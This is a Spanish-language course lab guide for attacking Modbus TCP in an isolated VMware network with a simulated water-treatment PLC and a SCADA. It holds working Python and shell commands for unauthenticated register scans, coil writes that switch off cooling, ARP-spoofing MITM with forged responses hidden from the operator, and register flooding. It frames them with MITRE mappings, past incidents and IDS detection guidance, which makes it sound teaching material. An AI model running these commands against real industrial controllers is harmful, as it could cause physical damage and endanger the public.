

🏭 Laboratorio: Ciberseguridad OT/ICS — Ataques sobre Modbus TCP (Red & Blue Team)
Este laboratorio demuestra cómo un atacante con acceso a una red OT (Operational Technology) puede comprometer un proceso industrial crítico utilizando técnicas de red estándar — sin exploits, sin vulnerabilidades de software, solo abusando del diseño del protocolo Modbus TCP.
El objetivo no es aprender a atacar sistemas industriales como receta. Es entender por qué Modbus TCP es inherentemente inseguro, qué impacto tienen estos ataques en el mundo real, y qué controles defensivos pueden detectarlos o mitigarlos.
📦 Módulos y herramientas requeridas
Este laboratorio utiliza herramientas open source que ya vienen instaladas o disponibles en Kali Linux, más algunas librerías Python que deben instalarse manualmente. A continuación se detalla cada módulo, para qué sirve y cómo instalarlo.
| Herramienta / Módulo | ¿Qué es? | ¿Para qué se usa en este lab? | ¿Ya viene en Kali? |
|---|---|---|---|
| arpspoof (dsniff) | Herramienta de envenenamiento ARP | Posicionar a Kali como MITM entre PLC y FUXA en Labs 3 y 4 | Generalmente sí — verificar |
| ettercap | Suite de ataques MITM | ARP spoofing alternativo y captura de tráfico | Sí |
| wireshark | Analizador de protocolos de red | Capturar y analizar tráfico Modbus TCP en tiempo real | Sí |
| python3-pip | Gestor de paquetes Python | Instalar librerías Python necesarias para los scripts | Sí |
| pymodbus | Librería Python para Modbus TCP | Leer y escribir registros del PLC desde los scripts de ataque y monitoreo | No — instalar manualmente |
| python3-netfilterqueue | Librería Python para interceptar paquetes del kernel | Capturar y modificar paquetes Modbus en vuelo (Lab 3 — falsificación) | No — instalar manualmente |
| scapy | Librería Python para manipulación de paquetes de red | Construir y modificar frames Ethernet/IP/TCP con datos Modbus falsificados | Sí (python3-scapy) |
Instalación completa en Kali (con NAT activo)
Con Kali conectada a Internet (NAT), ejecutar los siguientes comandos en orden. Es importante seguir el orden exacto — las dependencias del sistema deben instalarse antes de las librerías Python que las requieren.
# Paso 1 — Actualizar repositorios
sudo apt update && sudo apt upgrade -y# Paso 2 — Instalar herramientas de red y dependencias del sistema
sudo apt install -y \
dsniff \
ettercap-text-only \
wireshark \
python3-pip \
python3-scapy \
libnetfilter-queue-dev \
libnfnetlink-dev \
libmnl-devnetfilterqueue de Python se compila desde código C durante
la instalación. Necesita los headers del kernel de Linux para la intercepción de paquetes.
Sin estas dependencias del sistema, pip falla con el error
fatal error: libnfnetlink/linux_nfnetlink.h: No such file or directory.
# Paso 3 — Instalar librerías Python con privilegios de sistema
# (necesario porque los scripts de ataque se ejecutan con sudo)
sudo pip3 install pymodbus --break-system-packages
sudo pip3 install netfilterqueue --break-system-packages# Paso 4 — Verificar todas las instalaciones
# arpspoof necesita sudo para verificar correctamente
sudo arpspoof 2>&1 | grep -i "version\|usage\|UID" | head -1
python3 -c "from pymodbus.client import ModbusTcpClient; print('pymodbus OK')"
python3 -c "from netfilterqueue import NetfilterQueue; print('netfilterqueue OK')"
python3 -c "from scapy.all import IP; print('scapy OK')"Resultado esperado de las verificaciones:
UID/EUID 0 or capability CAP_NET_RAW required ← arpspoof presente (normal sin sudo)
pymodbus OK
netfilterqueue OK
scapy OKUID/EUID 0 or capability CAP_NET_RAW required significa que arpspoof
está instalado correctamente pero requiere privilegios root para ejecutarse.
No es un error — es el comportamiento esperado. En el laboratorio siempre se
ejecuta con sudo.
--break-system-packages ya incluido en los comandos anteriores
lo resuelve. Es seguro en este contexto de laboratorio.
Alternativa si persiste: sudo apt install python3-pymodbus
🖥️ Preparación del entorno — Descarga e importación de las VMs
¿Qué es el PLC y por qué es crítico en la industria?
Un PLC (Programmable Logic Controller) es un computador industrial diseñado para controlar procesos físicos en tiempo real — motores, válvulas, bombas, sensores de temperatura y presión. A diferencia de un servidor convencional, el PLC ejecuta su programa de forma cíclica con tiempos de respuesta de milisegundos y está diseñado para operar sin interrupciones durante años.
En la industria, los PLCs controlan procesos donde un fallo tiene consecuencias físicas directas: una central eléctrica que distribuye energía a miles de hogares, una planta química donde una válvula mal posicionada puede causar una explosión, o una planta de agua potable donde una concentración incorrecta de químicos puede envenenar a toda una ciudad. En este laboratorio, el PLC es una VM con OpenPLC Runtime — software open source que implementa el estándar IEC 61131-3 y expone registros vía Modbus TCP, exactamente como un PLC físico industrial.
¿Qué es el SCADA/HMI y cuál es su rol?
Un SCADA (Supervisory Control and Data Acquisition) es el sistema que permite al operador humano supervisar y controlar el proceso industrial desde una interfaz gráfica. Muestra en tiempo real el estado de todos los equipos, registra históricos, genera alarmas cuando los valores salen de rango, y permite enviar comandos al PLC.
En una planta real, el SCADA es la única ventana que tiene el operador sobre el proceso. Si el SCADA muestra información falsa, el operador toma decisiones incorrectas. En este laboratorio, el SCADA es una VM con FUXA — un HMI web open source que se comunica con el PLC por Modbus TCP y muestra el dashboard de la planta de tratamiento de agua.
Paso 1 — Descargar las VMs desde la carpeta compartida del curso
Las dos VMs ya están preconfiguradas con todo el software instalado y los programas cargados. Descargar ambos archivos desde la carpeta compartida del curso:
- VM-PLC-OpenPLC.ova — VM del controlador PLC
- VM-SCADA-FUXA.ova — VM del sistema SCADA/HMI
Paso 2 — Importar las VMs en VMware Workstation
Para cada archivo OVA, repetir el siguiente proceso:
- Abrir VMware Workstation
- Ir a File → Open (o Ctrl+O)
- Seleccionar el archivo
.ovadescargado - En la pantalla de importación, hacer click en Import
- Esperar a que VMware complete la importación (puede tardar 2-5 minutos)
- La VM aparecerá en la biblioteca de VMware con el nombre original
Paso 3 — Conectar ambas VMs a VMnet5
Las dos VMs deben estar en la misma red interna (VMnet5) para comunicarse entre sí y con Kali. Para cada VM importada:
- Click derecho sobre la VM → Settings
- Seleccionar Network Adapter
- En Network connection, seleccionar Custom: Specific virtual network
- En el dropdown, seleccionar VMnet5
- Click OK
🔌 Verificaciones previas antes del laboratorio
Paso 1 — Reconectar Kali a VMnet5
Una vez completadas todas las instalaciones de paquetes (que requirieron NAT/Internet), reconectar la interfaz de red de Kali a VMnet5:
- En VMware, click derecho sobre la VM de Kali → Settings
- Seleccionar Network Adapter
- Cambiar a Custom: VMnet5
- Click OK
- En Kali, verificar que la interfaz tiene una IP en el rango
192.168.55.x:
ip addr show eth0
# Debe mostrar: inet 192.168.55.130/24Paso 2 — Verificar que las VMs de PLC y SCADA están corriendo
Arrancar ambas VMs si no están encendidas. Esperar 30-60 segundos a que los servicios inicien automáticamente. Luego verificar acceso desde el navegador del host:
| VM | URL de verificación | Lo que debe aparecer |
|---|---|---|
| PLC — OpenPLC | http://192.168.55.48:8080 |
Panel de login de OpenPLC (usuario: openplc / contraseña: openplc) |
| SCADA — FUXA | http://192.168.55.124:1881/lab |
Dashboard de la planta de tratamiento de agua |
Paso 3 — Verificar conectividad de red completa desde Kali
# Verificar conectividad con el PLC
ping -c 3 192.168.55.48
# Resultado esperado: 3 paquetes transmitidos, 3 recibidos, 0% pérdida
# Verificar conectividad con el SCADA
ping -c 3 192.168.55.124
# Resultado esperado: 3 paquetes transmitidos, 3 recibidos, 0% pérdida
# Verificar que el puerto Modbus del PLC está accesible
python3 -c "
from pymodbus.client import ModbusTcpClient
c = ModbusTcpClient('192.168.55.48', port=502)
if c.connect():
print('Puerto 502 Modbus TCP: ACCESIBLE')
c.close()
else:
print('ERROR: No se puede conectar al puerto 502')
"También verificar desde el PLC hacia el SCADA y viceversa:
# Desde la VM del PLC (conectarse por SSH o consola)
ssh plc@192.168.55.48
ping -c 3 192.168.55.124 # PLC → FUXA
ping -c 3 192.168.55.130 # PLC → Kali
# Desde la VM del SCADA
ssh plc@192.168.55.124
ping -c 3 192.168.55.48 # FUXA → PLC
ping -c 3 192.168.55.130 # FUXA → Kali▶️ Inicio del proceso — Activar el SCADA
Una vez que la conectividad está verificada, el siguiente paso es activar el proceso en el SCADA para que el laboratorio esté en estado operacional antes de ejecutar los ataques.
Paso 1 — Verificar que el PLC está en Running
Acceder al panel de OpenPLC desde el navegador:
http://192.168.55.48:8080
- Login con usuario openplc y contraseña openplc
- En el Dashboard verificar que el estado dice Running: Planta de Agua
- Si dice Stopped, hacer click en Start PLC
Paso 2 — Activar el proceso desde el SCADA FUXA
Acceder al dashboard del SCADA: http://192.168.55.124:1881/lab
El dashboard mostrará la planta con la bomba y el ventilador apagados al inicio. Para activar el proceso, hacer click en los dos botones en este orden:
- Hacer click en el botón "Ventilador" (Radiador) — el icono del ventilador debería comenzar a girar y el indicador cambiar a verde
- Hacer click en el botón "Iniciar Bomba" — el indicador de la bomba debería cambiar a verde
- El nivel del tanque comenzará a subir progresivamente (de ~5% hacia 90%)
- La temperatura comenzará a bajar (desde ~98°C hacia 20°C)
- El ventilador mostrará estado ON con el icono girando
- La bomba mostrará estado ON
- Las alarmas deberían apagarse a medida que la temperatura baja de 85°C y 60°C
bomba_on
y ventilador_on muestran TRUE.
Si muestran 0, el comando del SCADA no llegó al PLC —
verificar la conectividad de red entre las dos VMs.
🗺️ Mapeo de Técnicas MITRE ATT&CK for ICS
| Táctica | Técnica | Código MITRE ICS |
|---|---|---|
| Reconocimiento | Remote System Information Discovery | T0888 |
| Ejecución | Command-Line Interface | T0807 |
| Manipulación de proceso | Unauthorized Command Message | T0855 |
| Evasión | Spoof Reporting Message | T0856 |
| Impacto | Loss of View / Denial of Control | T0829 / T0813 |
🏗️ Arquitectura del Laboratorio

Diagrama de red del laboratorio — tres VMs en VMnet5 simulando una red OT flat sin segmentación
| Componente | IP | Puerto | Rol |
|---|---|---|---|
| OpenPLC Runtime v3 | 192.168.55.48 |
:8080 / :502 |
PLC software — simula una planta de tratamiento de agua con bomba, ventilador y sensores |
| FUXA SCADA/HMI | 192.168.55.124 |
:1881 |
Sistema de supervisión — panel del operador con dashboard en tiempo real |
| Kali Linux | 192.168.55.130 |
— | Atacante — ya tiene acceso a la red OT (escenario post-movimiento lateral) |
| Red | 192.168.55.0/24 |
— | VMnet5 — red interna aislada simulando una red OT flat sin segmentación |
🔧 Proceso — Planta de Tratamiento de Agua
El PLC ejecuta un programa en lenguaje Structured Text (IEC 61131-3) que simula el sistema de refrigeración de una bomba industrial:
| Estado | Bomba | Ventilador | Efecto |
|---|---|---|---|
| ✅ Normal | ON | ON | Temperatura baja, nivel de tanque sube |
| ⚠️ Alerta | ON | OFF | Temperatura +3°C por ciclo, nivel sube |
| ⚠️ Alerta | OFF | ON | Temperatura +1°C por ciclo, nivel baja |
| 🔴 Crítico | OFF | OFF | Temperatura +5°C por ciclo, nivel baja rápido, alarma explosión a 85°C |
📋 Scripts del laboratorio
De la carpata compartida descargar "G. Script_Lab_SCADA.zip" que contiende los diversos script para ejecutar el laboratorio
| Script | Uso | Requiere sudo |
|---|---|---|
1_arp_spoof.sh |
ARP Spoofing — base para todos los ataques MITM | Sí |
2_monitor.py |
Monitor Modbus en tiempo real — muestra estado real del PLC | No |
3_ataque.py |
Menú de ataques con inyección y falsificación | Sí (opción 2) |
ataque_flood.py |
Flooding y saturación de registros Modbus | No |
🧹 PASO 0 — Limpieza general
Ejecutar SIEMPRE antes de comenzar cada laboratorio
Antes de cada lab es fundamental partir de un estado limpio — sin procesos residuales, sin reglas iptables anteriores y con el PLC en estado normal. Un estado sucio es la causa más común de comportamiento inesperado durante los ejercicios.
# En Kali — matar todos los procesos anteriores del lab
sudo pkill -f arpspoof 2>/dev/null
sudo pkill -f ataque 2>/dev/null
sudo pkill -f flood 2>/dev/null
sudo pkill -f monitor 2>/dev/null
sudo pkill -f nfqueue 2>/dev/null
# Limpiar reglas iptables
sudo iptables -F FORWARD
sudo iptables -t nat -F PREROUTING
sudo iptables -P FORWARD ACCEPT
# Activar IP forwarding (necesario para Labs 2 en adelante)
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
# Restaurar PLC a estado normal
python3 -c "
from pymodbus.client import ModbusTcpClient
c = ModbusTcpClient('192.168.55.48', port=502)
c.connect()
c.write_coil(address=0, value=True)
c.write_coil(address=1, value=True)
c.write_register(address=1024, value=38)
c.write_register(address=1025, value=62)
print('PLC restaurado — Bomba ON | Ventilador ON | Temp 38C | Nivel 62%')
c.close()
"Verificar en FUXA que el dashboard muestra:
- Bomba ON ✅
- Ventilador ON ✅
- Temperatura bajando hacia 20°C
- Nivel de tanque subiendo hacia 90%
🔴 LAB 1 — Reconocimiento Modbus
Objetivo: descubrir todos los registros del PLC sin credenciales
Ejemplo real — Shodan y SCADA expuestos
En 2021 en Oldsmar, Florida, un atacante accedió remotamente al sistema SCADA de una planta de agua potable y aumentó el nivel de hidróxido de sodio de 111 ppm a 11.100 ppm — 100 veces el nivel seguro — usando exactamente las mismas funciones Modbus que vamos a explorar en este laboratorio. El operador lo vio en el HMI y lo revirtió, pero si no hubiera estado mirando, el agua contaminada habría llegado a 15.000 personas.
Paso 1 — Verificar conectividad
# Desde Kali — verificar que el PLC está accesible
ping 192.168.55.48
ping 192.168.55.124Paso 2 — Escanear los registros Modbus del PLC
El siguiente script lee todos los coils (outputs digitales) y holding registers (valores analógicos) disponibles en el PLC, sin credenciales ni configuración previa:
python3 -c "
from pymodbus.client import ModbusTcpClient
print('=== RECONOCIMIENTO MODBUS SIN CREDENCIALES ===')
print('Conectando a 192.168.55.48:502...')
c = ModbusTcpClient('192.168.55.48', port=502)
c.connect()
print('Escaneando coils (outputs digitales)...')
r = c.read_coils(address=0, count=8)
for i, v in enumerate(r.bits[:8]):
print(f' Coil {i}: {v}')
print('')
print('Escaneando holding registers con valor != 0...')
for bloque in range(0, 1200, 100):
try:
r2 = c.read_holding_registers(address=bloque, count=100)
for i, v in enumerate(r2.registers):
if v != 0:
print(f' HR address={bloque+i} offset={bloque+i+1}: {v}')
except:
break
c.close()
print('Reconocimiento completado.')
"Resultado esperado:
=== RECONOCIMIENTO MODBUS SIN CREDENCIALES ===
Conectando a 192.168.55.48:502...
Escaneando coils (outputs digitales)...
Coil 0: True
Coil 1: True
Coil 2: False
Coil 3: False
Coil 4: False
Coil 5: False
Coil 6: False
Coil 7: False
Escaneando holding registers con valor != 0...
HR address=1024 offset=1025: 20
HR address=1025 offset=1026: 90
Reconocimiento completado.
Mapa de registros descubiertos
| Variable | Tipo | Address | Offset FUXA | Descripción |
|---|---|---|---|---|
bomba_on |
Coil (Bool) | 0 | 1 | Estado de la bomba principal |
ventilador_on |
Coil (Bool) | 1 | 2 | Estado del ventilador de refrigeración |
temperatura |
Holding Register (Int) | 1024 | 1025 | Temperatura del proceso en °C |
nivel_tanque |
Holding Register (Int) | 1025 | 1026 | Nivel del tanque en porcentaje |
🔴 LAB 2 — Inyección Modbus directa
Objetivo: modificar el proceso industrial enviando comandos no autorizados al PLC
Ejemplo real — Triton/TRISIS (Arabia Saudita, 2017)
El malware Triton atacó los Safety Instrumented Systems (SIS) de una planta petroquímica. Reprogramó los controladores de seguridad para deshabilitar las paradas de emergencia, dejando la planta físicamente sin protección. El objetivo era causar una explosión. El ataque fue detectado por accidente cuando un controlador falló y la planta entró en parada de emergencia automática — exactamente lo que el atacante quería desactivar.
Paso 1 — Abrir el monitor en una terminal (dentro de la carpeta de los script)
# Terminal 1 — ver el efecto en tiempo real
python3 2_monitor.pyPaso 2 — Ejecutar el ataque de inyección directa (abrir otra terminal dentro de la carpeta)
# Terminal 2 — menú de ataques
sudo python3 3_ataque.pyElegir opción 1 — Ataque directo
Equivalente manual del ataque
# Apagar el ventilador — FC05 Write Single Coil
python3 -c "
from pymodbus.client import ModbusTcpClient
import time
c = ModbusTcpClient('192.168.55.48', port=502)
c.connect()
# Leer estado antes del ataque
r = c.read_coils(address=0, count=2)
r2 = c.read_holding_registers(address=1024, count=1)
print(f'ANTES: Bomba={r.bits[0]} | Ventilador={r.bits[1]} | Temp={r2.registers[0]}C')
# Apagar el ventilador — FC05
c.write_coil(address=1, value=False)
print('FC05 enviado — ventilador apagado')
time.sleep(5)
# Verificar efecto
r = c.read_coils(address=0, count=2)
r2 = c.read_holding_registers(address=1024, count=1)
print(f'DESPUES: Bomba={r.bits[0]} | Ventilador={r.bits[1]} | Temp={r2.registers[0]}C')
c.close()
"Lo que ocurre paso a paso
- Kali envía un paquete TCP al puerto 502 del PLC con función FC05 (Write Single Coil)
- El PLC acepta el comando sin validación — apaga el ventilador
- FUXA detecta el cambio porque lee el estado real del PLC cada 500ms
- El operador ve el ventilador apagarse en el dashboard
- La temperatura empieza a subir +3°C por ciclo
- A 60°C → alarma amarilla en FUXA
- A 85°C → alarma roja, indicador de riesgo de explosión
Restaurar antes del siguiente lab
python3 -c "
from pymodbus.client import ModbusTcpClient
c = ModbusTcpClient('192.168.55.48', port=502)
c.connect()
c.write_coil(address=0, value=True)
c.write_coil(address=1, value=True)
print('Sistema restaurado')
c.close()
"o Directamente opcion 3 "Restaurar Sistema Completo"
🔴 LAB 3 — MITM con ARP Spoofing + Falsificación Modbus
Objetivo: posicionarse entre PLC y FUXA, modificar el proceso e intentar ocultar el ataque al operador
Ejemplo real — Industroyer/CrashOverride (Ucrania, 2016)
El malware Industroyer causó un corte eléctrico en Kiev dejando sin luz a 230.000 personas durante 6 horas. Implementó módulos nativos para Modbus, IEC 60870-5-104 e IEC 61850, enviando comandos directamente a los relés de subestaciones eléctricas. También incluía un módulo de borrado de logs para eliminar evidencia después del ataque.
Paso 1 — Iniciar ARP Spoofing (Abrir una nueva Terminal y dejar corriendo)
sudo bash 1_arp_spoof.shVerificar que las MACs del PLC y FUXA ahora apuntan a Kali:
# Desde el PLC o FUXA — las MACs del otro extremo deben ser la MAC de Kali
arp -aPaso 2 — Monitor en tiempo real (Terminal 2)
python3 2_monitor.pyPaso 3 — Ejecutar ataque con falsificación (Terminal 3)
sudo python3 3_ataque.pyElegir opción 2 — Falsificación total
Lo que ocurre
- El ARP spoofing posiciona a Kali entre PLC (.48) y FUXA (.124)
- Todo el tráfico Modbus TCP pasa por Kali antes de llegar al destino
- El script apaga el ventilador en el PLC (FC05)
- Kali intercepta las respuestas FC01 del PLC hacia FUXA
- Modifica el bit del ventilador de 0 a 1 antes de reenviar
- FUXA recibe una respuesta falsificada — muestra ventilador ON
- El operador no detecta nada — la temperatura sube sin explicación aparente (cada x segundos el SCADA FUXA podria mostrar el estado intermitente)
Al terminar
# Ctrl+C en el script → opción 3 Restaurar → Ctrl+C en arpspoof🔴 LAB 4 — Flooding y saturación de registros
Objetivo: hacer el proceso completamente ininteligible e inoperable
Ejemplo real — Colonial Pipeline (EE.UU., 2021)
El ransomware que afectó Colonial Pipeline no atacó directamente los sistemas OT, pero el operador los apagó preventivamente por miedo a que el malware se propagara desde la red IT. El resultado fue el mismo: el oleoducto dejó de funcionar 6 días, causando escasez de combustible en la costa este de EE.UU. y un estado de emergencia. Un flooding directo sobre los sistemas de control hubiera tenido el mismo efecto sin necesidad de ransomware.
Paso 1 — Iniciar ARP Spoofing (Terminal 1)
sudo bash 1_arp_spoof.shPaso 2 — Ejecutar flooding (Terminal 2)
sudo python3 ataque_flood.pyModos disponibles
| Opción | Modo | Velocidad | Efecto en FUXA |
|---|---|---|---|
| 1 | Coils random | 20 escrituras/seg | Bomba y ventilador parpadean sin control |
| 2 | Registros random | 20 escrituras/seg | Temperatura y nivel muestran valores entre 0 y 32767 |
| 3 | Flood total | 50 ciclos/seg | Todo el proceso errático simultáneamente |
| 4 | Valores extremos | 10 ciclos/seg | Picos máximo/mínimo — alarmas disparándose constantemente |
| 5 | DoS TCP | 10 conexiones paralelas | FUXA pierde comunicación — "Sin conexión" en el HMI |
El script restaura el PLC automáticamente al hacer Ctrl+C en cada modo.
🔵 Detección — IDS sobre tráfico OT
La detección de los ataques practicados en este laboratorio mediante un IDS con reglas específicas para Modbus TCP se aborda en un laboratorio dedicado del módulo de IDS, donde se trabaja con Snort conectado a VMnet5 con reglas personalizadas para detectar reconocimiento Modbus, escrituras FC05/FC06 no autorizadas, flooding de registros y ARP spoofing entre el PLC y el SCADA.
Como adelanto conceptual, estos son los tipos de eventos que un IDS bien configurado detectaría sobre el tráfico generado en cada lab de este laboratorio:
| Lab | Técnica | Qué detectaría el IDS | Tipo de regla |
|---|---|---|---|
| Lab 1 | Reconocimiento Modbus | Volumen inusual de lecturas FC01/FC03 desde una IP no autorizada | Rate-based / Policy |
| Lab 2 | Inyección FC05 | Write Single Coil desde IP que no es el SCADA autorizado (.124) | Policy violation |
| Lab 3 | MITM + ARP Spoofing | Frames ARP reply con MAC inconsistente para IPs conocidas del PLC y FUXA | ARP inspection |
| Lab 4 | Flooding de registros | Más de 10 escrituras FC05/FC06 por segundo desde la misma IP | Rate-based DoS |
🟢 COMANDOS DE EMERGENCIA
Si algo sale mal durante el laboratorio, ejecutar en Kali:
# Parar TODO inmediatamente
sudo pkill -f arpspoof; sudo pkill -f ataque; sudo pkill -f flood
sudo iptables -F FORWARD; sudo iptables -t nat -F
# Restaurar PLC a estado normal
python3 -c "
from pymodbus.client import ModbusTcpClient
c = ModbusTcpClient('192.168.55.48', port=502)
c.connect()
c.write_coil(address=0, value=True)
c.write_coil(address=1, value=True)
c.write_register(address=1024, value=38)
c.write_register(address=1025, value=62)
print('Sistema restaurado correctamente')
c.close()
"📊 Comparativa de ataques
Resumen de los cuatro laboratorios practicados y su nivel de detección teórico con un IDS sobre tráfico OT (abordado en el laboratorio de IDS):
| Lab | Técnica | Visible en FUXA | Rastro en logs Modbus | Impacto físico | Detectable con IDS |
|---|---|---|---|---|---|
| Lab 1 | Reconocimiento Modbus | No | Ninguno | Ninguno | Solo por volumen de lecturas |
| Lab 2 | Inyección FC05 | Sí — operador ve el cambio | Ninguno en Modbus | Temperatura crítica | Sí — cambio no autorizado |
| Lab 3 | MITM + falsificación | Parcial — HMI falsificado | Ninguno | Temperatura crítica | Sí — MAC cambia, física imposible |
| Lab 4 | Flooding / DoS | Sí — valores erráticos | Ninguno en Modbus | Pérdida total de control | Sí — cambios masivos y rápidos |
💡 Lecciones Aprendidas
- Modbus TCP fue diseñado para confianza implícita: Cualquier dispositivo en la misma red puede leer y escribir todos los registros del PLC. No hay autenticación, no hay autorización, no hay cifrado, no hay auditoría. Fue diseñado así intencionalmente para un mundo donde las redes OT eran aisladas físicamente.
- La convergencia IT/OT es el vector de entrada: En todos los casos reales citados (Oldsmar, Triton, Industroyer), el atacante primero comprometió la red IT y luego se movió lateralmente a la red OT. La segmentación de red es la defensa más efectiva en costo.
- El operador ve el efecto, no la causa: Sin logs de escritura Modbus, un ataque de inyección parece un fallo de equipamiento. La forensia post-incidente en entornos OT es extremadamente difícil.
- Los PLCs son dispositivos con recursos muy limitados: Un DoS TCP que apenas perturbaría un servidor web puede dejar un PLC completamente irresponsivo, requiriendo intervención física.
- La detección debe ser por comportamiento del proceso: Como Modbus no genera logs de seguridad, los IDS industriales monitorizan si el proceso físico se comporta de forma coherente — temperatura, presión, caudal — no solo el tráfico de red.
- La única defensa técnica absoluta es la autenticación de capa de aplicación: OPC-UA con certificados, DNP3 Secure Authentication v5, o Modbus sobre TLS. Pero la defensa más efectiva es la segmentación — si el atacante no llega a la red OT, no puede hablar con el PLC.
📚 Referencias
- MITRE ATT&CK for ICS: https://attack.mitre.org/matrices/ics/
- CISA — Securing Industrial Control Systems: https://www.cisa.gov/ics
- ICS-CERT Advisory — Triton/TRISIS: https://www.cisa.gov/news-events/ics-advisories
- OpenPLC Runtime: https://github.com/thiagoralves/OpenPLC_v3
- FUXA SCADA: https://github.com/frangoteam/FUXA
- NIST SP 800-82 — Guide to ICS Security: https://csrc.nist.gov/